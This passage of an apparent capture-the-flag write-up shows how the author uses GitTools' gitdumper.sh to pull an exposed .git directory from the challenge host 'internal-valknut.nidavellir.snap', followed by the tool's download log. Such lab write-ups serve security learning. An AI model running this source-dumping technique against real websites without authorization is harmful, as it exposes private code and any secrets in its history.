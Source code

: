 ![CyberChef Decryption](./writeup-images/31.png)

- use [GitTools](https://github.com/internetwache/GitTools) to extract the `git history`

```
$ git clone https://github.com/internetwache/GitTools
```

```
$ ./gitdumper.sh "http://internal-valknut.nidavellir.snap/.git/" "/home/shreyas/Downloads/tmp-ctf"
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /home/shreyas/Downloads/tmp-ctf/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
```